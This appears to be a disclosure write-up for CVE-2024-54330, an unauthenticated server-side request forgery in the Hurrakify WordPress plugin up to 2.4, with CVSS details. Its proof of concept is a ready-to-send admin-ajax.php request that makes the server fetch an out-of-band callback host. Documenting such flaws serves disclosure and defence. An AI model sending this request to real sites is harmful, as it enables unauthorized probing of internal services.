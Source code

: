 # CVE-2024-54330
Hurrakify <= 2.4 - Unauthenticated Server-Side Request Forgery

# Description

The Hurrakify plugin for WordPress is vulnerable to Server-Side Request Forgery in all versions up to, and including, 2.4. This makes it possible for unauthenticated attackers to make web requests to arbitrary locations originating from the web application which can be used to query and modify information from internal services.

## Details

- **Type**: plugin
- **Slug**: hurrakify
- **Affected Version**: 2.4
- **CVSS Score**: 7.2
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:N
- **CVE**: CVE-2024-54330
- **Status**: Active

POC
---

```
GET /wp-admin/admin-ajax.php?action=hurraki_tooltip_proxy&target=http%3A%2F%2Fqrl9eu4dot1s941aio2eom17oyupif64.oast.site HTTP/2
Host: wp-dev.ddev.site
```

```
<html><body>bfdibc85r04ky96cie05dfzjjgigz</body></html>
```
